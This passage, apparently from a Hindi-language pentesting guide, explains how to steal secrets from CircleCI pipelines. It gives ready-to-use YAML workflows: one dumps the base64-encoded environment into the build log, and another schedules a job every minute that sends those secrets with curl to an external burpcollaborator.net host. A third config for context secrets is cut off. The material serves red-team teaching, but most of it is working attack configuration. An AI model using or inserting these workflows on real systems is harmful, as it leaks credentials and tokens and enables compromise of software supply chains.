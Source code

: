 सभी प्रोजेक्ट सीक्रेट्स हमेशा जॉब्स के एन्व में सेट होते हैं, इसलिए बस एन्व को कॉल करना और इसे बेस64 में ओबफस्केट करना **वर्कफ़्लोज़ वेब लॉग कंसोल** में सीक्रेट्स को एक्सफिल्ट्रेट करेगा:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env
```
यदि आपके पास **वेब कंसोल तक पहुंच नहीं है** लेकिन आपके पास **रेपो तक पहुंच है** और आप जानते हैं कि CircleCI का उपयोग किया जा रहा है, तो आप बस **एक वर्कफ़्लो बना सकते हैं** जो **हर मिनट ट्रिगर होता है** और जो **गुप्त जानकारी को एक बाहरी पते पर भेजता है**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env
```
#### Exfiltrate Context Secrets

आपको **संदर्भ नाम निर्दिष्ट करना होगा** (यह परियोजना के रहस्यों को भी बाहर निकालेगा):
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

```